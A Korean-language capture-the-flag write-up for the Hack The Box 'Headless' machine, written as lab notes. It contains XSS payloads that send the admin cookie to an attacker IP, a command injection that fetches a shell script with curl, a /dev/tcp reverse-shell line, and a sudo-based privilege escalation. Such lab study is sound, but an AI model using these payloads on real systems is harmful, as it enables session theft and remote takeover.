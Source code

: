 htb: headless
### 사용한 취약점: XSS(쿠키 탈취)
- 포트 스캔 결과: 22, 5000(upnp)
- 5000페이지의 웹에 입력값을 넣는 필드가 있고 <>가 있을 경우 error 경고 창이 뜬다.
- gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- /support 200과 /dashboard 500 결과를 확인하였고 500에는 관리자 쿠키를 탈취하여 접근한다.
  <br></br>
- burpsuite를 사용하여 message=에는 <img src=x onerror=fetch('http://10.10.16.40:8001/?c='+document.cookie);>로 전송
  - 관리자의 쿠키 값이 전송된다
- 먼저 python3 -m http.server 8001로 쿠키값을 전송받을 서버를 설정한다
- user-agent에는 <img src=x onerror=fetch('http://10.10.16.40:8001/'+document.cookie);> 설정
- 파라이터 message에는 <img src=x onerror=fetch('http://10.10.16.40:8001/?c='+document.cookie);> 설정
  - 설정하고 전송할 경우 관리자의 쿠키 값이 전달된다
    - 이를 쿠키 값에 설정하고 /dashboard에 접근한다
<br></br>
- nc -lnvp 4444
- date= 부분에 data=; curl http://10.10.16.40:4444/shell.sh로 리버스 쉘을 획득할 수 있다.
- shell.sh 내용
  - #!/bin/bash sh -i >& /dev/tcp/10.10.16.40/4444 0>&1
<br></br>
- user.txt 플래그 값을 읽고 그 후 sudo -l로 root 비밀번호 없이 실행할 수 있는 /usr/bin/syscheck 존재를 알 수 있다.
- gpt로 분석한 결과 시스템을 체크하는 기능을 갖는다
  - 프로그램 안에서 ./initdb.sh
  - home에서 initdb.sh를 실행한다
  - 그 다음에 /bin/bash -p로 권한상승을 한다
<br></br>
### 알게 된 것
- xss 실행의 다양한 방법
  - https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
- xss 판단은 <script>alert('xss')</script>로 테스트
  - 소스 보기에서 코드 검사
  - DOM에 동적으로 삽입 되는 경우 찾기
- /bin/bash -p
  - bash shell을 privileged 옵션으로 실
- sudo -l
  - 현재 사용자가 sudo로 실행할 수 있는 프로그램 나열
  - pw없이 sudo 사용할 수 있는 프로그램도 나열
  - User user1 may run the following commands on hostname: (ALL) ALL
      - user1 is allowed to run any command('ALL') as any user('ALL')
